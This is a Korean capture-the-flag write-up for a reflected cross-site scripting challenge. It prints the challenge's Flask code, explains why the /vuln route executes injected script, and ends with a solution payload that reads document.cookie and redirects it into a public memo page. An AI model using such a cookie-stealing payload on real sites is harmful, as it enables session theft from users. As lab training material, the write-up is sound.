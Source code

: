 ## 코드

```python
@app.route("/vuln")
def vuln():
    param = request.args.get("param", "") # 이용자가 입력한 vuln 인자를 가져옴
    return param # 이용자의 입력값을 화면 상에 표시

@app.route('/memo') # memo 페이지 라우팅
def memo(): # memo 함수 선언
    global memo_text # 메모를 전역변수로 참조
    text = request.args.get('memo', '') # 사용가 전송한 memo 입력값을 가져옴
    memo_text += text + '\n' # 사용가 전송한 memo 입력값을 memo_text에 추가
    return render_template('memo.html', memo=memo_text) # 사이트에 기록된 memo_text를 화면에 출력 => render_template을 사용하므로

def read_url(url, cookie={"name": "name", "value": "value"}): # 다른 사용자(피해자)를 구현하기 위한 가상 시나리오
    cookie.update({"domain": "127.0.0.1"})
    try:
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome("/chromedriver", options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.add_cookie({"name": "flag", "value": FLAG_FROM_FILE})
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True
    
def check_xss(param, cookie={"name": "name", "value": "value"}): # 여기까지 도달하면 취약점 성공
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)
    
@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}): # exploit 잘했는지 검증
            return '<script>alert("wrong??");history.go(-1);</script>'
        return '<script>alert("good");history.go(-1);</script>'
```

## 취약점

```python
@app.route("/vuln")
def vuln():
    param = request.args.get("param", "") # 이용자가 입력한 vuln 인자를 가져옴
    return param # 이용자의 입력값을 화면 상에 표시 ==> 그냥 그대로 return하므로 악성스크립트 실행 가능

@app.route('/memo') # memo 페이지 라우팅
def memo(): # memo 함수 선언
    global memo_text # 메모를 전역변수로 참조
    text = request.args.get('memo', '') # 사용가 전송한 memo 입력값을 가져옴
    memo_text += text + '\n' # 사용가 전송한 memo 입력값을 memo_text에 추가
    return render_template('memo.html', memo=memo_text) # 사이트에 기록된 memo_text를 화면에 출력 ==> render_template을 사용하므로 스크립트 실행 안됨
```

취약점은 vuln()에서 발생하고,
/flag 페이지에서는 127.0.0.1:8000/vuln?param='{MY_PARAM}'와 같이 취약한 함수를 실행시킬 수 있도록 해놨다.
실제로 이 string 값이 사용되는건 아니고,
/flag에 스크립트를 입력하면
-> check_xss가 실행되고 이때 입력한 MY_PARAM이 전달된다. 또한 쿠키(Flag)도 전달된다.
-> check_xss에서는 MY_PARAM을 전달받아 실제로 127.0.0.1:8000/vuln?param='{MY_PARAM}' 주소를 read_url로 전달하고
-> read_url은 127.0.0.1:8000/vuln?param='{MY_PARAM}' 주소를 실행시키는 역할을 한다.(아까 전달한 쿠키와 함께)
-> 결국 취약한 함수인 /vuln으로 MY_PARAM을 전달하는 것이다.

> 헷갈리는게 쿠키를 함수의 인자로 전달하고 있기 때문인데,
> 따지고보면 결국 피해 사용자의 쿠키를 탈취하는게 목적이므로
> 문제의 코드에서는 쿠키를 /flag에서 만들어서 줄게 아니라
> read_url이 애초에 실행될때 cookie에 flag를 담아서 갖고 있는 사용자로 만들었다면
> 헷갈리지 않을 수 있었을 것

이때 주소를 보면 127.0.0.1:8000인데, 이는 시나리오로 만든 임의의 피해 사용자의 주소이다.
결국 해당 주소의 실행은 피해 사용자가 실행하는 것이고,
따라서 alert와 같은 것은 피해자의 PC에서만 발생하므로 우리는 볼 수 없다.
공격자인 우리가 이 쿠키 값을 얻기 위해서는 쿠키를 출력할 수 있어야 하는데,
이때 memo는 스크립트를 실행시키진 않지만 string을 그대로 출력하는 기능이 있다.
심지어 모든 유저가 이 memo에 접근할 수 있으므로,
127.0.0.1:8000 사용자가 실행한 memo 명령도 모두가 볼 수 있다.
따라서 MY_PARAM에 들어갈 alert(document.cookie) 스크립트는
location.href = "/memo?memo=" + document.cookie 스크립트이다.
이를 넣으면 127.0.0.1:8000/vuln은 "/memo?memo=" + document.cookie를 실행시킬 것이며,
127.0.0.1:8000의 document.cookie인 FLAG가 나타나는 것이다.

## 풀이 스크립트

<script>location.href = "/memo?memo=" + document.cookie;</script>